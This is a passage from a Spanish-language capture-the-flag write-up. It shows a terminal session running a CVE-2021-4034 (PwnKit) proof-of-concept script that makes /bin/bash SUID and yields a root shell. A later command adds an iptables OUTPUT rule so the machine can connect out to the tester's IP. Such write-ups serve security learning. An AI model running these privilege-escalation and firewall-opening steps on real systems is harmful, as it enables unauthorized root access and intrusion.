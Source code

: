 ```shell
> chmod +x pkwner.sh
> ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
> ./pkwmner.sh
> ./pkwner.sh 
██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
CVE-2021-4034 PoC by Kim Schulz
[+] Setting up environment...
[+] Build offensive gconv shared module...
[+] Build mini executor...
hello[+] Nice Job
> ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
> bash -p
> whoami
root
```
Lo extra que podemos hacer es revisar las iptables para ver cómo estaban montado. Al parecer tiene algo más establecido porque aún metiendo nuestra ip no podemos entablarnos la conexión.

```shell
> iptables -L
Chain INPUT (policy DROP)
target     prot opt source               destination         
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:http
ACCEPT     icmp --  anywhere             anywhere             icmp echo-request
ACCEPT     all  --  anywhere             anywhere            

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy DROP)
target     prot opt source               destination         
ACCEPT     icmp --  anywhere             anywhere             icmp echo-reply
ACCEPT     tcp  --  anywhere             anywhere             state RELATED,ESTABLISHED
ACCEPT     all  --  anywhere             anywhere

> iptables -A OUTPUT -p tcp -d 10.10.14.22 -j ACCEPT
> iptables -L
Chain INPUT (policy DROP)
target     prot opt source               destination         
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:http
ACCEPT     icmp --  anywhere             anywhere             icmp echo-request
ACCEPT     all  --  anywhere             anywhere            

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy DROP)
target     prot opt source               destination         
ACCEPT     icmp --  anywhere             anywhere             icmp echo-reply
ACCEPT     tcp  --  anywhere             anywhere             state RELATED,ESTABLISHED
ACCEPT     all  --  anywhere             anywhere            
ACCEPT     tcp  --  anywhere             10.10.14.22
```

